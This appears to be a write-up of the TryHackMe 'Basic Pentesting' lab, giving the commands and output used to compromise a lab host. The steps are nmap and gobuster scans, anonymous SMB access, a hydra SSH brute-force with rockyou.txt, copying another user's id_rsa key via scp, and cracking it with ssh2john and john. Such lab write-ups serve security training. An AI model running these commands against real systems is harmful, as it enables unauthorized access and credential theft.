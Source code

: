 # Basic Pentesting | TryHackMe
1. First, nmap to the target.

`nmap -sV 10.10.150.97`
```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-11 13:17 JST
Nmap scan report for 10.10.150.97
Host is up (0.30s latency).
Not shown: 992 closed tcp ports (conn-refused)
PORT     STATE    SERVICE     VERSION
22/tcp   open     ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open     http        Apache httpd 2.4.18 ((Ubuntu))
139/tcp  open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3390/tcp filtered dsc
3517/tcp filtered 802-11-iapp
8009/tcp open     ajp13       Apache Jserv (Protocol v1.3)
8080/tcp open     http        Apache Tomcat 9.0.7
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 300.35 seconds
```
2. http is available and I'm going to see it.

![picture](https://github.com/itc-n22003/new/blob/main/pictures/basic_pentesting_80.png)

I didn't find anything in particular.
3. I'll try gobuster.

`gobuster dir -w common.txt -u http://10.10.150.97`
```
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.150.97
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /home/n22003/Work/Wordlist/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/05/11 13:34:44 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 296]
/.hta                 (Status: 403) [Size: 291]
/.htpasswd            (Status: 403) [Size: 296]
/development          (Status: 301) [Size: 318] [--> http://10.10.150.97/development/]
/index.html           (Status: 200) [Size: 158]
/server-status        (Status: 403) [Size: 300]
Progress: 4614 / 4615 (99.98%)
===============================================================
2023/05/11 13:37:09 Finished
===============================================================
```

4. I'll take a look at it since the `/development` is suspicious.
Found dev.txt and j.txt.
According to dev.txt, smb is free. (I knew this from nmap earlier...)

5. Take a look at the SMB.
```
        Sharename       Type      Comment
        ---------       ----      -------
        Anonymous       Disk      
        IPC$            IPC       IPC Service (Samba Server 4.3.11-Ubuntu)
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            BASIC2
```
Check Anonymous.

6. I'll try to connect it to Anonymous.

`smbclient \\\\10.10.150.97\\Anonymous`
No passwords.
```
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Fri Apr 20 02:31:20 2018
  ..                                  D        0  Fri Apr 20 02:13:06 2018
  staff.txt                           N      173  Fri Apr 20 02:29:55 2018

                14318640 blocks of size 1024. 11094400 blocks available
```
Take a look at staff.txt
`more staff.txt`
I found a user named Jan.

7. I'm going to try to do a total ssh hit on Jan with hydra.

`hydra -l jan -P rockyou.txt 10.10.150.97 ssh`
1.Now that I have jan's password, I'll try connecting via ssh.
There was nothing special in jan's directory.
However, there were some in kay's directory, so I tried ssh connection with kay.

8. Get kay key.
I'll try to see if I can get the kay key with scp.

`scp jan@10.10.150.97:/home/kay/.ssh/id_rsa .`
The password is jan's.
I got it and I'm going to feed it to john.

`ssh2john id_rsa > hash`
Analyze with john.

`john --wordlist=rockyou.txt hash`
Now that I know kay's password, I change id_rsa's permissions to 600 and ssh.

`chmod 600 id_rsa`

`ssh -i id_rsa kay@10.10.150.97`
The password is the one I just parsed.
If you can log in, check pass.bak and that's it.
